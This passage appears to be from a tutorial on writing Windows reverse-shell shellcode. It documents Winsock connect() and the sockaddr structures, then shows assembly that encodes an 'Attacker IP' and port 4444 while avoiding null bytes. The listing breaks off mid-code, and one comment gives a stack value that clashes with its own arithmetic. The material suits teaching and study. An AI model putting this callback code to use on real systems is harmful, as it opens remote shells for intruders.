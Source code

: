 The `connect(...)` function is used by a process to [make a connection](https://learn.microsoft.com/en-us/windows/win32/winsock/connecting-to-a-socket) to a specified destination.

```c
int WSAAPI connect(
  [in] SOCKET         s,
  [in] const sockaddr *name,
  [in] int            namelen
);
```
* [`s`](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect#:~:text=Parameters-,%5Bin%5D%20s,-A%20descriptor%20identifying): This argument specifies the socket descriptor for a socket that is to be used when making the connection. This specifies the source port.
* [`name`](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect#:~:text=an%20unconnected%20socket.-,%5Bin%5D%20name,-A%20pointer%20to): This argument specifies a pointer to the [sockaddr](https://learn.microsoft.com/en-us/windows/win32/winsock/sockaddr-2) structure we use to specify the destination of this connection.
* [`namelen`](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect#:~:text=an%20unconnected%20socket.-,%5Bin%5D%20name,-A%20pointer%20to): This argument specifies the length of the `name` argument;  depending on the socket type, we may use a different `sockaddr` structure.

Below is the definition of the `sockaddr` structure for connections using IPv4:
```c
struct sockaddr {
        ushort  sa_family;
        char    sa_data[14];
};
```
* [`sa_family`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr#:~:text=Members-,sa_family,-The%20address%20family): Protocol family used by the socket.
* [`sa_data`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr#:~:text=Address%20Families.-,sa_data%5B14%5D,-An%20array%20of): Socket Address.

Below is the definition of the `sockaddr_in` structure for connections using IPv4:
```c
struct sockaddr_in {
        short   sin_family;
        u_short sin_port;
        struct  in_addr sin_addr;
        char    sin_zero[8];
};
```
* [`sin_family`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=Members-,sin_family,-The%20address%20family): Protocol family used by the socket.
* [`sin_port`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=set%20to%20AF_INET.-,sin_port,-A%20transport%20protocol):  Port of number.
* [`sin_addr`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=protocol%20port%20number.-,sin_addr,-An%20IN_ADDR%20structure): IPv4Address.
* [`sin_zero`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=IPv4%20transport%20address.-,sin_zero%5B8%5D,-Reserved%20for%20system): Zero Padding (Reserved for system use).


Now let's look at the assembly generated by a call to the `connect(...)` function:
<pre>
mov ebx,0x6B57555F      ; <b>Attacker IP</b>: 10.0.2.22. In reverse order:
                        ; hex(22) = 0x16
                        ; hex(2) = 0x02
                        ; hex(0) = 0x00
                        ; hex(10) = 0x0a
                        ; 0x1602000a + 55555555 = 6B57555F
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; This will push 0x1400a8c0 to the stack without
                        ; injecting null bytes
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX